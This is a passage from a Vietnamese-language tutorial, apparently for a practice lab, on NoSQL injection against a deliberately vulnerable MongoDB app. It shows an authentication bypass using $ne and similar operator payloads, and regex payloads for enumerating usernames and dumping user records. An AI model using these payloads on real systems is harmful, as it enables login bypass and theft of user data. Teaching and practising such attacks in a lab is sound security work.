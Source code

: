 **Giải thích kỹ thuật:**
```javascript
// Query ban đầu (ý định)
db.users.findOne({
  username: "admin",
  password: "Admin@123"
})

// Query sau khi inject (thực tế)
db.users.findOne({
  username: {$ne: null},  // username != null (luôn đúng)
  password: {$ne: null}   // password != null (luôn đúng)
})

// Kết quả: Trả về user đầu tiên (thường là admin)
```

**Các payload khác có thể thử:**
```json
{"$gt": ""}          // Greater than empty string
{"$gte": ""}         // Greater than or equal
{"$regex": ".*"}     // Match anything
{"$exists": true}    // Field exists
```

---

### Attack 2: Regex Enumeration (Data Extraction)

**Mục tiêu:** Enumerate users và extract data

**Các bước:**
1. Mở form "Vulnerable Search"
2. Thử các payload:

**Payload 1 - Tìm users bắt đầu bằng 'a':**
```
^a
```

**Payload 2 - Brute force username từng ký tự:**
```
^a    → Có user nào bắt đầu bằng 'a'?
^ad   → Có user nào bắt đầu bằng 'ad'?
^adm  → Có user nào bắt đầu bằng 'adm'?
^admin → Bingo! Tìm được username
```

**Payload 3 - Dump tất cả:**
```
.*
```

**Kết quả:** Liệt kê được tất cả 5 users với email và role!

**Blind Enumeration Technique:**
```
^a.*    → Test nếu có user bắt đầu bằng 'a'
^b.*    → Test nếu có user bắt đầu bằng 'b'
...
^admin$ → Exact match 'admin'
```

---